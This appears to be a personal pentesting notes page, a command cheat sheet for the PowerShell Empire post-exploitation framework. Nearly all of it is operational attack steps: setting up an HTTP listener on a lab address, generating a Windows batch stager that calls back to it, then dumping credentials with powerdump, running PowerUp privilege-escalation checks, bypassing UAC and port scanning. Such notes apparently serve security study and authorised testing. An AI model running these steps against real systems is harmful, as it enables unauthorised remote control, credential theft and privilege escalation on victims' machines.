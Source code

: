 # 💢 powershell empire

Tags: #💢 
Related to: 
See also: 
Previous: [[Post Exploitation]]


## Description

## Usage Examples

### Clear database
	cd /opt/empire  
	sudo ./reset.sh

### Search for modules
    searchmodule privesc

### Configure a listener.

	listeners
	uselistener <Tab><Tab>
	uselistener http
	info

	set DefaultDelay 1
	set Port 8080
	set Host http://10.10.10.100:8080
	?
	execute

	listeners
	back

### Deploy an agent.

	usestager <Tab><Tab>
	usestager windows/launcher_bat
	info

	set Listener http
	generate

### Interact with agent

	agents
	interact AgentName
	?
	info
	list agents

### Use modules

	usemodule <Tab><Tab>
	usemodule situational_awareness/host/winenum
	info
	run		// Wait about 30 seconds and look through its output
	<Enter>

### Find privilege escalation

	back
	searchmodule powerup
	use privesc/powerup/allchecks
	run

	usemodule powershell/credentials/powerdump*	// The module ends with *, indicating that it requires an elevated privilege process to use it.
	info
	run

### UAC bypass

	back
	back
	usemodule privesc/ask
	info
	list listeners
	set Listener http
	run
	y <Enter>

	agents
	rename [NewSessionPseudoRandomName] AgentHIGH
	interact AgentHIGH
	usemodule powershell/credentials/powerdump*
	run

	back
	shell ipconfig
	shell whoami

### Port scan

	searchmodule portscan
	usemodule situational_awareness/network/portscan
	info
	set Hosts 10.10.10.10
	run

### Wrap up

	main
	agents
	kill all
	listeners
	kill http
	exit
	<y><Enter>

# References

https://github.com/EmpireProject/Empire